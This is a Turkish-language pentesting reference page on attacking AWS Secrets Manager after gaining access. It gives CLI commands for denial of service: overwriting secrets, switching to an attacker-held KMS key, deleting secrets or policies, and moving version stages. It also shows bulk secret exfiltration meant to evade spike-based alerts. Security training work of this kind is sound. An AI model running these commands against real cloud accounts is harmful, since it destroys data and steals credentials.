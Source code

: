 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Daha fazla bilgi için bakın:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Secrets Okuma

**secrets kendileri hassas bilgilerdir**, nasıl okunacağını öğrenmek için [privesc sayfasına bakın](../aws-privilege-escalation/aws-secrets-manager-privesc.md).

### DoS Secret Değerini Değiştirme

secret'in değerini değiştirerek, o değere bağımlı tüm sistemleri **DoS edebilirsiniz.**

> [!WARNING]
> Önceki değerlerin de saklandığını unutmayın, bu yüzden önceki değere kolayca geri dönebilirsiniz.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Eğer saldırganın secretsmanager:UpdateSecret izni varsa, secret'ı saldırgana ait bir KMS key kullanacak şekilde yapılandırabilir. O key başlangıçta herkesin erişip kullanabileceği şekilde ayarlandığı için, secret'ı yeni key ile güncellemek mümkün olur. Key erişilebilir olmasaydı, secret güncellenemezdi.

Secret için key değiştirildikten sonra saldırgan, key'inin yapılandırmasını yalnızca kendisinin erişebileceği şekilde değiştirir. Böylece, secret'ın sonraki sürümleri yeni key ile şifrelenir ve bu key'e erişim olmadığından secret'ı almak imkânsız hale gelir.

Bu erişilemezliğin yalnızca secret içeriği değiştikten sonraki sürümlerde meydana geleceğini not etmek önemlidir; çünkü mevcut sürüm hâlâ orijinal KMS key ile şifrelenmiş durumdadır.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret'i Silme

Bir secret'i silmek için gereken minimum gün sayısı 7'dir.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Bir secret'i geri yüklemek mümkündür; bu, silinmek üzere planlanmış secret'lerin geri yüklenmesine olanak tanır; çünkü secret'ler için minimum silme süresi 7 gün, maksimum ise 30 gündür. secretsmanager:GetSecretValue izniyle birlikte bunların içeriğini almak mümkün olur.

Silinme sürecinde olan bir secret'i kurtarmak için aşağıdaki komutu kullanabilirsiniz:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Bu işlem, bir secret'e kimlerin erişebileceğini kontrol eden resource policy'yi silmeye izin verir. Resource policy belirli bir kullanıcı grubuna erişim verecek şekilde yapılandırıldıysa bu DoS'ye yol açabilir.

Resource policy'yi silmek için:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Bir secret'in durumları, secret sürümlerini yönetmek için kullanılır. AWSCURRENT uygulamaların kullandığı aktif sürümü işaret eder, AWSPREVIOUS gerektiğinde geri alabilmeniz için önceki sürümü tutar ve AWSPENDING yeni bir sürümü mevcut hale getirmeden önce hazırlamak ve doğrulamak için rotasyon sürecinde kullanılır.

Uygulamalar her zaman AWSCURRENT etiketi olan sürümü okur. Birisi bu etiketi yanlış bir sürüme taşırsa, uygulamalar geçersiz kimlik bilgilerini kullanır ve başarısız olabilir.

AWSPREVIOUS otomatik olarak kullanılmaz. Ancak AWSCURRENT kaldırılır veya yanlış atanırsa, her şeyin hâlâ önceki sürümle çalışıyor gibi görünebilir.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### BatchGetSecretValue ile Toplu Secret Exfiltration (her çağrıda en fazla 20)

Secrets Manager BatchGetSecretValue API'sini kötüye kullanarak tek bir istekte en fazla 20 secret alabilirsiniz. Bu, her secret için GetSecretValue çağrısı yapmaya kıyasla API çağrısı hacmini önemli ölçüde azaltabilir. Eğer filtreler (tags/name) kullanılıyorsa, ListSecrets izni de gereklidir. CloudTrail yine de toplu olarak alınan her secret için bir GetSecretValue olayı kaydeder.

Gerekli izinler
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue for each target secret
- secretsmanager:ListSecrets if using --filters
- kms:Decrypt on the CMKs used by the secrets (if not using aws/secretsmanager)

> [!WARNING]
> Note that the permission `secretsmanager:BatchGetSecretValue` is not included enough to retrieve secrets, you also need `secretsmanager:GetSecretValue` for each secret you want to retrieve.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate filtrelerle (tag key/value or name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
Kısmi başarısızlıkların ele alınması
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
Etkisi
- Daha az API çağrısıyla birçok sırrın hızlı “smash-and-grab” ile ele geçirilmesi, GetSecretValue artışlarına göre ayarlanmış uyarıları potansiyel olarak atlatabilir.
- CloudTrail günlükleri hâlâ toplu işlemle alınan her sır için bir GetSecretValue olayı içerir.
